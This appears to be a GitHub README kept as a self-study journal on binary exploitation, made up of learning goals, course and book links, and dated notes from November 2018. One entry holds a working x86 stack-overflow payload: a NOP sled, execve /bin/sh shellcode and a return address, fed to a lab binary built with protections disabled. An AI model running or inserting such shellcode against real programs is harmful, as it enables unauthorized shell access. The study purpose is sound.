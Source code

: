 ### Desired outcome:
- Possess the skills necessary to carry out independent vulnerability research
against binary applications.
- Have an intimate understanding of executable formats, program control flow at
the assembly level, and other low level concepts.
- Understand classic and contemporary vulnerabilities and exploitation techniques.
- Apply both source code auditing and binary reverse engineering to the
vulnerability discovery process.
- Be capable of exploiting vulnerabilities found in real world software as defined by
MITRE’s Critical Vulnerabilities and Exposures (CVE) system
- More topics include:
 ```
    Buffer Overflows
    Heap Exploitation
    Format String Exploits
    Return Oriented Programming
    Reverse Engineering
    Networking
    Linux Kernel
```
bla bla bla ... 

I want to learn how to Pwn!! 

![](https://vignette.wikia.nocookie.net/villains/images/4/4a/Wiki-logo.jpg)

### Foundamentals:
- [Binary Exploitation: x86 Assembly Crash Course](https://www.youtube.com/watch?v=75gBFiFtAb8)
- [Assembly Primer For Hackers ](https://www.youtube.com/watch?v=K0g-twyhmQ4)
- [Binary Hacking Course](http://www.liveoverflow.com/binary_hacking/)
- [Modern Binary Exploitation](http://security.cs.rpi.edu/courses/binexp-spring2015/) + [git](https://github.com/RPISEC/MBE)
- [Binary Exploitation ELI5– Part 1](https://hackernoon.com/binary-exploitation-eli5-part-1-9bc23855a3d8)
- [OSCP Guide. Where to start, what to read, how to practice.](https://blog.acheremisov.com/2018/01/oscp-guide-where-to-start-what-to-read-how-to-practice/)
- [(PoC||GTFO or PoC or GTFO)](https://www.alchemistowl.org/pocorgtfo/)
- [Smashing the Stack for Fun and  profit - Phrack](http://phrack.org/issues/49/14.html)

***
# The Journal
### 23/11/2018
I started today with the [lecture one](http://security.cs.rpi.edu/courses/binexp-spring2015/lectures/1/01_lecture.pdf), then I moved to read [this book chapter 2](https://repo.zenk-security.com/Techniques%20d.attaques%20%20.%20%20Failles/EN-Hacking_The_Art_of_Exploitation%201.pdf) about writing a simple vulnerable program to execute a stack overflow attack and gain root access. (in reality the chapter goes up to the heap overflow too).Then searching on google how to determine which is the proper shellcode to use, I ended up [here](https://dhavalkapil.com/blogs/Shellcode-Injection/).Interestingly, in his explenation he use a flag ```To disable the rest of security functions we will be using the following flags to compile:-fno-stack-protector -z execstack ```, a quick search on google brought up this [GCC Stack Protection Mechanisms](https://security.stackexchange.com/questions/158609/how-is-the-stack-protection-enforced-in-a-binary).

[Get shellcode of the binary using objdump:](https://www.commandlinefu.com/commands/view/12151/get-shellcode-of-the-binary-using-objdump)
```Bash
for i in $(objdump -d binary -M intel |grep "^ " |cut -f2); do echo -n "\x$i"; done;echo 
```
Then,

``` Bash
./vuln $(python -c 'print "\x90"*40 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" + "A"*47 + "\x20\xce\xff\xff"')
```

- [gdb output hex format](http://www.delorie.com/gnu/docs/gdb/gdb_55.html)
### 22/11/2018
The biggest challenge so far is to create a real plan of action , the resources online are pkently, but most of time these resources are redundant, depracated, inaccurate. Therefore a challenge before the challenge is to make a clear path of what I need to learn.


### 20/11/2018
- [writing-exploits-for-win32-systems-from-scratch](https://www.nccgroup.trust/uk/about-us/newsroom-and-events/blogs/2016/june/writing-exploits-for-win32-systems-from-scratch/)

### 17/11/2018
There are 2 website you(I) need to check: http://www.fuzzysecurity.com/ and https://www.corelan.be/ these are holyBible2.0 of hacking resources. But, not the only one needed. For general reference on the topic https://null-byte.wonderhowto.com/how-to/exploit-development-everything-you-need-know-0167801/ and a [link](https://github.com/topics/exploit-development) to the github by topic.


***

### Resources: 
- [Linux Exploit Development Tutorial Series](http://www.fuzzysecurity.com/tutorials.html) 
- [HoleyBeep: Explanations and exploit in python](https://sigint.sh/#/holeybeep)
- [HoleyBeep: exploit in C](https://gist.github.com/fkt/5f8f9560ef54e11ff7df8bec09dc8f9a)
- [Ethical Hacking: Exploits](https://www.lynda.com/Linux-tutorials/Ethical-Hacking-Exploits/512724-2.html)
- [Pluralsight: Exploit Development and Execution with the Metasploit Framework](https://www.pluralsight.com/courses/exploit-development-execution-metasploit-framework)
- [Pluralsight: Security for Hackers and Developers: Exploit Development ](https://www.pluralsight.com/courses/exploit-development-security-hackers-developers)
- [Metasploit Unleashed – Free Ethical Hacking Course](https://www.offensive-security.com/metasploit-unleashed/)
- [A Study in Exploit Development by Anitian](https://www.anitian.com/a-study-in-exploit-development-part-1-setup-and-proof-of-concept/)
- [Exploit Development for Beginners Youtube](https://www.youtube.com/watch?v=tVDuuz60KKc)
- [Infosec guides](https://bitvijays.github.io/#)

### Other stuffs
- [Essential linux](https://bitvijays.github.io/LFF-ESS-P0B-LinuxEssentials.html)

### Other university security teams:
 - https://rpis.ec/
 - https://www.vusec.net/
 
### Books
- https://www.amazon.com/Penetration-Testing-Hands-Introduction-Hacking/dp/1593275641
- https://www.amazon.com/Kali-Linux-Revealed-Penetration-Distribution/dp/0997615605
- https://www.amazon.com/Metasploit-Penetration-Testers-David-Kennedy/dp/159327288X
- https://www.amazon.com/Rtfm-Red-Team-Field-Manual/dp/1494295504/
- [Hacking_The_Art_of_Exploitation](https://repo.zenk-security.com/Techniques%20d.attaques%20%20.%20%20Failles/EN-Hacking_The_Art_of_Exploitation%201.pdf)
- https://www.amazon.com/Shellcoders-Handbook-Discovering-Exploiting-Security/dp/047008023X
